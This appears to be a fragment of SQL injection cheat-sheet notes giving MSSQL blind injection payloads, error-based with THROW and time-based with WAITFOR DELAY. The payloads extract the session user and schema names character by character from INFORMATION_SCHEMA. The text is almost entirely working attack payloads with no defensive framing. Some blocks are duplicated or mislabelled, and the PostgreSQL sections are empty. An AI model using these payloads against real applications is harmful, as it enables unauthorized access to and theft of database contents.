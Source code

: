 <aside>
💡 MSSQL works differently, you have to enumerate tables owned by the schema name. In order to do this, you have to know who you are acting as.

</aside>

### MSSQL (error based) (whoami)

```sql
IF ((SELECT SUBSTRING((SELECT SESSION_USER AS CurrentUser),1,1) AS CurrentUser)='a') BEGIN THROW 500001, 'ERROR', 1; END
```

```sql
IF ((SELECT SUBSTRING((SELECT SESSION_USER AS CurrentUser),1,1) AS CurrentUser)='a') BEGIN THROW 500001, 'ERROR', 1; END
```

### MSSQL (time based) (whoami)

```sql
IF ((SELECT SUBSTRING((SELECT USER_NAME() AS CurrentUser),1,1) AS CurrentUser)='U') WAITFOR DELAY '0:0:02'
```

```sql
IF ((SELECT SUBSTRING((SELECT USER_NAME() AS CurrentUser),1,1) AS CurrentUser)='a') BEGIN THROW 500001, 'ERROR', 1; END
```

### MSSQL (error based) (tables owned by schema name)

```sql
IF ((SELECT SUBSTRING((SELECT TABLE_SCHEMA FROM (SELECT ROW_NUMBER() OVER (ORDER BY TABLE_SCHEMA) AS RN, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES) AS THING WHERE RN=1),1,1)))='a' BEGIN THROW 500001, 'ERROR', 1; END
```

### MSSQL (time based) (tables owned by schema name)

```sql
IF ((SELECT SUBSTRING((SELECT TABLE_SCHEMA FROM (SELECT ROW_NUMBER() OVER (ORDER BY TABLE_SCHEMA) AS RN, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES) AS THING WHERE RN=1),1,1)))='a' WAITFOR DELAY '0:0:02'
```

### PostgreSQL (error based)

```sql

```

### PostgreSQL (time based)

```sql

```
